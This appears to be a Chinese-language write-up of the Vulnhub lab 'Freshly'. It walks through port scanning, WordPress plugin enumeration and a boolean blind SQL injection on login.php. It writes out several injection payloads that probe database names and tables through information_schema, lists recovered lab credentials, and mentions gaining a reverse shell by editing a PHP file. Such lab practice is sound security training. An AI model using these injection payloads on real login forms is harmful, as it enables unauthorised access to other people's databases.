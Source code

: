 +++
ShowToc = true
TocOpen = true
title = '0x047 Freshly'
date = 2024-10-11T14:25:59+08:00
draft = false
private = true
show_reading_time = true
categories = 'vulnhub'
+++



这台也是用virtualbox打开的

# 端口扫描

![](/vulnhub_img/WEBRESOURCEddd932a1de8a3abffb95ac78f639055cimage.png)

![](/vulnhub_img/WEBRESOURCE455c2009ebbeffef0badbc63c9e411beimage.png)

![](/vulnhub_img/WEBRESOURCEb5a225c51f1475c5571571ef168b0a0eimage.png)

# 渗透

挨个端口来看吧：

首先是80：

![](/vulnhub_img/WEBRESOURCEaf2dc3f875e6e0852684635749191dedimage.png)

![](/vulnhub_img/WEBRESOURCEe9d96b041bbbd8fa1adecf204148e71bimage.png)

![](/vulnhub_img/WEBRESOURCE426dfb4b221c8e7b5c4e260fb022913bimage.png)

疑似线索：

tumblr_mdeo27ZZjB1r6pf3eo1_500.gif

![](/vulnhub_img/WEBRESOURCE85c909c522338f864d15ae38a341ae82image.png)

login.php存在sql注入，但是这种登录框一般是盲注，这里是布尔盲注，手动可能有点麻烦：

![](/vulnhub_img/WEBRESOURCE9b8cdf0b7df9ffa9511a62a4c8558651image.png)

443：

![](/vulnhub_img/WEBRESOURCEa69a016e339c23c326b63476710628faimage.png)

发现wordpress了，先搞wordpress：

插件：

![](/vulnhub_img/WEBRESOURCE24a07bb38b6177f4fe49dab52897ee52image.png)

用户：

![](/vulnhub_img/WEBRESOURCE8d0f76c1ef4f65a026bd8ebfed16a635image.png)

通过插件查找漏洞，找到两个可能的：

![](/vulnhub_img/WEBRESOURCEa8cb12327af8643e93b29ea6926053c1image.png)

![](/vulnhub_img/WEBRESOURCE37012679a35cd23b7d013b952dd2e1afimage.png)

8080端口：

![](/vulnhub_img/WEBRESOURCE72cdc318574904d05094929963e64f8bimage.png)

![](/vulnhub_img/WEBRESOURCEc8526fe0902d1c5354cb480e2e84757bimage.png)

![](/vulnhub_img/WEBRESOURCEcc07cb0b3e0f442396c7e0ae50303ae0image.png)

只有80端口可以，看样子得写脚本了：

写了半天，发现没有burp好使：

# 测数据库长度：

payload: 

admin 'or length(database())=5#

数据库长度为5

![](/vulnhub_img/WEBRESOURCE9451203a7dfb7dc8998c34dbad310911image.png)

![](/vulnhub_img/WEBRESOURCE2b1000252161856330d936f4f255af90image.png)

# 测试数据库名：LOGIN

substr(database(),1,1)=‘a’

第一个字符：L

admin 'or substr(database(),1,1)='L'#

![](/vulnhub_img/WEBRESOURCE9813f255e2682c0eded417d6e2a253f1image.png)

burp操作如下：

![](/vulnhub_img/WEBRESOURCEcc860519618c0c130e98d2759b9f8dfaimage.png)

![](/vulnhub_img/WEBRESOURCE07604d6e128d798f6982a360439ec7b3image.png)

![](/vulnhub_img/WEBRESOURCE4d8ac791295b8205584777c0f08b145eimage.png)

第二个字符：O

admin 'or substr(database(),2,1)='O'#

![](/vulnhub_img/WEBRESOURCEbee5d5d856578921f207ff645aa4762bimage.png)

第三个字符：G

![](/vulnhub_img/WEBRESOURCE9f13afb65f172ce693892120c4eae91cimage.png)

第四个字符：I

![](/vulnhub_img/WEBRESOURCEfb5a2d35c0daa10a2a3e0ad51c448832image.png)

第五个字符：N

![](/vulnhub_img/WEBRESOURCE6105c1e413376f47ea06d82bc71923ebimage.png)

# 测试表数量

(select COUNT(*) from information_schema.tables where table_schema='login')=2

![](/vulnhub_img/WEBRESOURCE902e80227fdc050c68b006504de74828image.png)

# 测第一张名的长度

length(substr((select table_name from information_schema.tables where table_schema='login' limit 0,1),1))=9#

第一张表长度9：

![](/vulnhub_img/WEBRESOURCE684889d4200cc64011a5e0bd2c8447fcimage.png)

第二张表长度5：

length(substr((select table_name from information_schema.tables where table_schema='login' limit 1,1),1))=5#

![](/vulnhub_img/WEBRESOURCE9ef164875d785f3826c9437bb46c78e2image.png)

前面发现一个问题，使用字符串进行对比可能导致大小写的问题

ascii(substr((select table_name from information_schema.tables where table_schema='login' limit 0,1),1,1))>97

算了，我废了，我只能被迫用sqlmap了，找个时间我再写个脚本吧：

![](/vulnhub_img/WEBRESOURCEbd861945a5451166eac242c1d824f7feimage.png)

SuperSecretPassword | admin

进入后台，改php文件反弹shell:

![](/vulnhub_img/WEBRESOURCE5b6f13dd2191d534f40f4b4b6e458ecfimage.png)

# 提权

root密码和上面的一样：

SuperSecretPassword

![](/vulnhub_img/WEBRESOURCEeaea5ad29598b8b3d7b570e159367b49image.png)

稍后研究一下布尔盲注的脚本：